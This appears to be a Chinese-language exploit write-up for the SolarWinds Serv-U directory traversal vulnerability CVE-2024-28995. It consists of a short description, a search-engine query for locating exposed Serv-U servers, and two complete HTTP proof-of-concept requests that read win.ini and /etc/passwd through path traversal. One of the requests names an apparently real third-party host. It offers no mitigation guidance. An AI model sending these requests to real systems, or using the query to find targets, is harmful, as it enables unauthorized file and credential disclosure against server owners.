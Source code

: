 # SolarWinds Serv-U 目录遍历漏洞(CVE-2024-28995)

### 1.漏洞描述

Serv-U 的目录遍历漏洞（CVE-2024-28995）是由于在处理路径时缺乏适当的验证。攻击者可以通过传递包含 “…/” 的路径段绕过路径验证，访问任意文件。

### 2.搜索语法

```plain
server="Serv-U"
```

### 3.漏洞复现

Windows-poc

```plain
GET /?InternalDir=/../../../../windows&InternalFile=win.ini HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive


```

![image](https://github.com/hardog123/poc-exp/assets/170905460/d54ff660-fa8c-4d94-b208-0819eb5c156f)


Linux-poc

```plain
GET /?InternalDir=\..\..\..\..\etc&InternalFile=passwd HTTP/1.1
Host: bbs.calgaryimageanalysis.ca
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![image-20240619220933490](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240619220933490.png)
